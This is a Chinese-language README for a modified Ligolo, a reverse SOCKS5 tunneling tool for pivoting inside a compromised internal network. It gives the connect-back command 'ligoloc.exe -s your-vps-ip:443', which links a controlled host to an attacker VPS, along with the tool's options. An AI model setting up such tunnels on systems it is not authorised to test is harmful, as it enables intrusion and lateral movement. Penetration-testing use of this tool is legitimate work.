 # Ligolo : 用于内网渗透的反向隧道

[![forthebadge](https://forthebadge.com/images/badges/made-with-go.svg)](https://forthebadge.com)
[![forthebadge](https://forthebadge.com/images/badges/gluten-free.svg)](https://forthebadge.com)

## 介绍

项目根据 [ligolo](https://github.com/sysdream/ligolo) 修改,主要做一些功能上的裁剪,方便使用.

**Ligolo** 是一个简单的,轻量级的反向Socks5代理工具,所有的流量使用TLS加密.

其功能类似于*Meterpreter*中的*Autoroute + Socks4a*,但是更加稳定,速度更快.

## 使用场景

当你已经在对方内网获取到一台 Windows / Linux / Mac 主机的权限且该主机可以连接互联网.

此时你想要建立一个对方内网的Socks5代理.

**Ligolo** 可以帮助你建立代理,协助你继续进行内网渗透.

> 如果已控主机不能访问互联网,可以尝试使用另一款工具 [pystinger](https://github.com/FunnyWolf/pystinger)

## 使用方法

### TL;DR

- 获取已编译的二进制文件 [release](https://github.com/FunnyWolf/ligolo/releases)

- 在你的VPS主机中.

```
./ligolos
```

- 在已控制的内网主机中.

```
> ligoloc.exe -s your-vps-ip:443
```

- 连接建立成功后,此时VPS的127.0.0.1:1080已经建立已控主机的内网Socks5代理.

### 详细说明

*Ligolo* 包含两个模块:

- ligolos (server)
- ligoloc (client)

*ligolos* 运行于你的VPS服务器 (攻击服务器).

*ligoloc* 运行于已经控制的内网主机.

*ligolos*可以使用默认设置.它会监听0.0.0.0:443端口(用于等待ligoloc连接)及127.0.0.1:1080(用于socks5代理).

*ligoloc*运行时必须制定服务端地址,使用参数`-s your-vps-ip:443`.

你可以使用`-h`参数查看帮助.

一旦*ligolos* 和 *ligoloc* 之间的连接建立成功,你即可使用VPS服务器`127.0.0.1:1080`的内网socks5代理.

### 选项

*ligolos* options:

```
PS XXX\bin> .\ligolos_windows_amd64.exe -h
Usage of D:\Code\git\go\src\ligolo\bin\ligolos_windows_amd64.exe:
  -cert string
        The TLS server certificate,Unnecessary (default "cert.pem")
  -key string
        The TLS server key,Unnecessary (default "key.pem")
  -l string
        The relay server listening address (the connect-back address) (default "0.0.0.0:443")
  -s5 string
        The local socks5 server address (your proxychains parameter) (default "127.0.0.1:1080")
```

*ligoloc* options:

```
PS XXX\bin> .\ligoloc_windows_amd64.exe -h
Usage of D:\Code\git\go\src\ligolo\bin\ligoloc_windows_amd64.exe:
  -s string
        The relay server (the connect-back address) (default "example.com:443")
```

### 编译

参考原版ligolo的编译方法

## 特性

- TLS 1.3 加密隧道
- 多平台 (Windows / Linux / Mac / ...)
- 多连接复用 (1 TCP连接传输所有流量)
- SOCKS5代理

## To Do

- 更好的超时机制
- SOCKS5 UDP 支持
- mTLS双向认证
- 反向端口映射 (映射内网端口到互联网)

## Licensing

GNU General Public License v3.0 (参考 LICENSING).

## 原版作者

* Nicolas Chatelain <n.chatelain -at- sysdream.com>



